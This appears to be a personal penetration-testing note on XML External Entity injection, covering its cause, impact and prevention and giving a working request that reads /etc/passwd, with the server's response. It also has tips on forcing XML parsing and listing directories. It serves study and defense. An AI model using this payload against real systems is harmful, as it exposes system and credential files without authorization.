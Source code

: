 ### Content
* [[#Overview]]
* [[#Local File Disclosure]]
	* [[#Read file contains some of XML's special characters]]
		* [[#Read PHP files using PHP wrapper]]
		* [[#Advanced Exfiltration with CDATA]] **(for any web application backend)**
* [[#Remote Code Execution]]
	* PHP
* [[#Blind XXE]]
	* [[#Error Based XXE]]
	* [[#Out-of-band Data Exfiltration]] **(Fully blind)**
		* Manually
		* Automated
---
## Overview
[XML External Entity (XXE) Injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- Cause: Occurs when [[XML]] data is taken from a user-controlled input without properly sanitizing or safely parsing it.
- Exploitation: An attacker supplies malicious [[XML]] data containing external entity references.
- Impact:
    - File Disclosure
    - SSRF (Server-Side Request Forgery)
    - Denial of Service (DoS)
    - Remote Code Execution (RCE)
- Prevention:
    - Disable External Entity Processing: Configure XML parsers to ignore external entities.
    - Use Safer Parsers: Some parsers don’t support external entities by default.
    - Input Validation: Avoid parsing XML from untrusted sources if possible.

**Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm).**

---
## Local File Disclosure
* **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [<!ENTITY email SYSTEM "file:///etc/passwd">]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK

Check your email root:x:0:0:root:/root:/bin/bash
xxe:x:1000:1000:xxe:/home/xxe:/bin/bash
 for further instructions.
[SNIP]....
```
**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.